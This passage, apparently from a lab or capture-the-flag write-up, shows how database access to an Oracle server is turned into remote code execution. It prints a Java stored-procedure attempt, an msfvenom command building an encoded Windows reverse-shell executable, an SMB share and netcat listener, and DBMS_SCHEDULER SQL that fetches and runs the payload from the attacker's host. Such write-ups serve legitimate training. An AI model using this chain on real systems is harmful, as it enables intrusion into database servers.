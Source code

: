 Nice! This means it is possible to get RCE. First try Java:

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

But this results in a `ORA-29538: Java not installed` error. Next try the `dbmsscheduler` to run an external task. First create and host a payload on Kali:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 6969
```

Then create and execute the the task over the SQL connection:

- https://docs.oracle.com/cd/B28359_01/server.111/b28310/schedadmin006.htm

```sql
BEGIN 
DBMS_SCHEDULER.create_program(
   program_name          => 'BUBBA',
   program_type          => 'EXECUTABLE',
   program_action        => 'c:\windows\system32\cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe',
   number_of_arguments   => 0,
   enabled               => TRUE,
   comments              => '');
END;
/
BEGIN 
DBMS_SCHEDULER.create_job(
  job_name        => 'GUMP',
  program_name    => 'BUBBA',
  start_date      => NULL,
  repeat_interval => NULL,
  end_date        => NULL,
  enabled         => TRUE); 
END;
/
```
